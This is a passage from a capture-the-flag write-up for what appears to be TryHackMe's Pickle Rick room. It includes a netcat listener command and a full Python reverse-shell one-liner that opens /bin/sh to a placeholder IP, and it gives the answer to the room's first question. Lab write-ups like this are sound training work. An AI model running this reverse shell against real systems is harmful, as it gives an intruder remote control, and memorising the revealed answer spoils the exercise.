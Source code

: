 As this was a very restrictive way to interact with the system and to many commands was disabled,  i attempted to gain a reverse shell. 

### Reverse shell

I first identified if there was python3 on the system, running the command which python3 returned that there was python3 on the system.

> Command: which python3

> Output /usr/bin/python3

![which_python](file:///home/kraken/ctf_writeups/pickle_rick_ctf/2021-10-10_20-34.png)

I am using a python reverse shell from pentestmonkey.net while using netcat to listen. 

#### Listener

Using the command 

> nc -lvnp 8080

Sets up netcat to listen for incoming connections on port 8080,

#### Reverse shell

The reverse shell i am using

> python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP-HERE",PORT HERE));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

changing the "ip here" to my local machines IP and the "port here" to the port that my local machine is listening on, in this instance 8080.

Using ifconfig to find the IP of the local machine, if using openVPN to connect to tryhackme this should be the IP address of tun0. If using the attack bot, it should be the IP of eth0.

![reverse_shell](file:///home/kraken/ctf_writeups/pickle_rick_ctf/reverse_shell.png)
![shell](file:///home/kraken/ctf_writeups/pickle_rick_ctf/shell.png)

Success, we managed to gain a reverse shell into the system. 

From here we can cat out the Sup3rS3cretPickl3Ingred.txt to reveal the answer to the first question.

> What is the first ingredient Rick needs?

> Answer : mr. meeseek hair

#### Enumerate further

After finding the answer to the first question, there is still two ingredients left to find. One file that stands out is Clue.txt and as such is the next step in this CTF.

> cat clue.txt 

> output: Look around the file system for the other ingredient.
